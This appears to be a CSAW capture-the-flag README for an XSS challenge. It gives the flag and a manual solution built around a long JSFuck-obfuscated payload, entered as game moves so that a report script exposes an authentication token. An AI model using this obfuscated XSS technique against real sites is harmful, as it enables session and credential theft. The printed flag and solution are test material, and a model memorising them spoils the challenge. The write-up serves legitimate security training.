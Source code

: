 # Challenge

> csawctf{5h1tt4k3_mu5hr00m5_i_fuXOR3d_up_r34l_b4d}

## Description

This challenge is intended to test one's familiarity with a Javascript obfuscication tool JSFuck (pardon the obscenity) and XSS attacks.

## Tools

These will be needed to help install/solve challange

- docker
- python
- selenium

## Installation

```bash
./install.sh
```

## Solution

### Autosolver

```bash
python3 solution.py
```

### Manual solution

From the provided source code, identify the variable *safetime* in the server script, which holds the authentication cookie.

Encode *safetytime* in JSFuck. The encoding is one-to-many, so let's work with *(![]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(+[![]]+[+(+!+[]+(!+[]+[])[!+[]+!+[]+!+[]]+[+!+[]]+[+[]]+[+[]]+[+[]])])[+!+[]+[+[]]]+(!![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]* as the encoding.

Bind one of the players to the keys (,),[,],!,+ in any order. Proceed to input our encoded payload as moves. After inputting the payload, move to the reporting page and report the player name for our payload.

The report script will display the authentication token. After visitng the home page with the authentication cookie, the leaderboard will be displayed. We can find the flag as one of the entries on this list.

Voilà